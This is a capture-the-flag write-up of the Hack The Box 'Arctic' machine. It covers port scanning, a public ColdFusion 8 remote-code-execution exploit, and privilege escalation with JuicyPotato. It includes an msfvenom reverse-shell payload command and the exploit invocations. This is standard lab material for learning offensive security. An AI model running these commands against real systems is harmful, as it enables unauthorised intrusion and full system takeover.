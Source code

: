 ```yaml
---
title: "HTB Arctic"
permalink: /writeups/arctic
location: default
---
```

# HTB Arctic

**Machine Information**

	IP : 10.10.10.11
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.11 -- -sC -sV -Pn
```

This should reveal three open ports: `135`, `8500`, and `49154`

```
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Investigate each of the ports and there should be a web server running on port 8500.

<http://10.10.10.11:8500/>

The default page is an `Index of /` and allows directory listing so we can explore the available files. Exploring the directories will reveal an Adobe ColdFusion 8 Administrator panel at the following location:

<http://10.10.10.11:8500/CFIDE/administrator/>

### Getting a Foothold

**Adobe ColdFusion Exploit**

Check for known exploits using `searchsploit`.

```
searchsploit coldfusion 8
```

This will reveal a python script that we can use for remote code execution.

```
Adobe ColdFusion 8 - Remote Command Execution (RCE) | cfm/webapps/50057.py
```

<https://www.exploit-db.com/exploits/50057>

Open the exploit and update the `LHOST`, `LPORT`, and `RHOST` parameters to the appropriate values. Start a new `netcat` listener and run the exploit.

```
python3 50057.py
```

Success!

```
C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

The user flag can be found in the following directory:

```
C:\Users\tolis\Desktop\user.txt
```

### Privilege Escalation

Checking our users privileges with `whoami /priv` reveals that we have the `SeImpersonatePrivilege` which may be exploitable.

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

For this we need to upload the `JuicyPotato.exe` exploit that can be downloaded from the following link:

<https://github.com/ohpe/juicy-potato/releases/tag/v0.1>

We will also need a reverse shell payload that can be generated using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Once both of these are on the target machine start a new `netcat` listener and run the exploit.

```
.\JuicyPotato.exe -t t -p .\shelly.exe -l 5837
```

Success!

```
C:\Windows\system32>whoami
nt authority\system
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
